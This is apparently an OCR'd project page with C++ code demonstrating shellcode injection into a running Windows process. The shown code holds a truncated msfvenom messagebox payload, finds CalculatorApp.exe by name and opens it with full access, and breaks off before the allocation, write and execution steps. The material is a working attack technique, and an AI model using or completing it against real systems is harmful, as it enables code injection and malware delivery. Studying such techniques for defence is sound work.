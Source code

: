 Project: Demonstrate the technique of shellcode injection into a running Windows process. Locate a process, allocate memory, write shellcode, and execute it within the target process.

&nbsp;

# Code

```C++
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

unsigned char payload[] = {
    // Example: msfvenom -p windows/x64/messagebox TEXT="Injected" TITLE="Hello" -f c
    0xfc, 0x48, 0x83, 0xe4, 0xf0, /* ...etc... */
};

DWORD GetProcessID(const std::wstring& processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        std::wcerr << L"CreateToolhelp32Snapshot failed. Error: " << GetLastError() << std::endl;
        return 0;
    }

    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnapshot, &pe)) {
        std::wcerr << L"Process32First failed. Error: " << GetLastError() << std::endl;
        CloseHandle(hSnapshot);
        return 0;
    }

    DWORD processID = 0;
    do {
        if (processName == pe.szExeFile) {
            processID = pe.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapshot, &pe));

    CloseHandle(hSnapshot);

    if (processID == 0) {
        std::wcout << L"Process not found." << std::endl;
    }
    else {
        std::wcout << L"Process ID of " << processName << L" is: " << processID << std::endl;
    }

    return processID;
}

int main() {
    std::wstring processName = L"CalculatorApp.exe";
    DWORD procID = GetProcessID(processName);

    if (procID == 0) {
        std::cerr << "Failed to get process ID. Exiting." << std::endl;
        return 1;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procID);
```